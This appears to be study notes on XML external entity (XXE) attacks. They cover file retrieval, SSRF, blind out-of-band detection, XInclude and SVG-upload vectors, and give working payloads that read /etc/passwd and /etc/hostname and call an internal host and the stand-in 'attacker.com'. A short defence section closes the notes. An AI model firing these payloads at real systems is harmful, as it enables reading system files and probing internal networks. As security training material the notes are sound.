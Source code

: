 # XXE

### What is XML

* Some applications use the XML format to transmit data between the browser and the server.
* Its popularity has now declined in favor of the JSON format

**XXE Impact**

* Retrieve files
* Perform SSRF attacks

## Exploiting XXE to retrieve files

1. Introduce (or edit) a DOCTYPE element that defines an external entity containing the path to the file
2. Edit a data value in the XML that is returned in the application's response, to make use of the defined external entity.

* Note: To test systematically for XXE vulnerabilities, you will generally need to test each data node in the XML individually, by making use of your defined entity and seeing whether it appears within the response.

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck> 
```

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```

## Exploiting XXE to perform SSRF attacks

* Reflected SSRF
* Bind SSRF

```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```

## Blind XXE

### Out-of-band (OAST) techniques <a href="#detecting-blind-xxe-using-out-of-band-oast-techniques" id="detecting-blind-xxe-using-out-of-band-oast-techniques"></a>

* Detecting as SSRF
* Bypass via XML parameter entities
  * `<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://attacker.com"> %xxe; ]>`
  * This XXE payload declares an XML parameter entity called `xxe` and then uses the entity within the DTD

## Finding hidden attack surface for XXE injection

* Requests that contain data in XML format
* Requests that do not contain any XML
  * (A way to detect) It's useful add entity reference that doesn't exist to cause an error condition -> ok it's XML ...
  * XInclude attacks
    * Some applications receive client-submitted data, embed it on the server-side into an XML document, and then parse the document
    * XInclude is a part of the XML specification that allows an XML document to be built from sub-documents
    * ```
      <foo xmlns:xi="http://www.w3.org/2001/XInclude">
      <xi:include parse="text" href="file:///etc/passwd"/></foo>
      ```
  * Via file upload
    * Some common file formats use XML or contain XML subcomponents. Examples of XML-based formats are office document formats like DOCX and image formats like SVG
    * `<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>`
      * This works if it's used image processing library & support SVG images & allow external entity
  * Via modified content type
    * To do

## Defence

* Disable resolution of external entities
* Disable support for XInclude
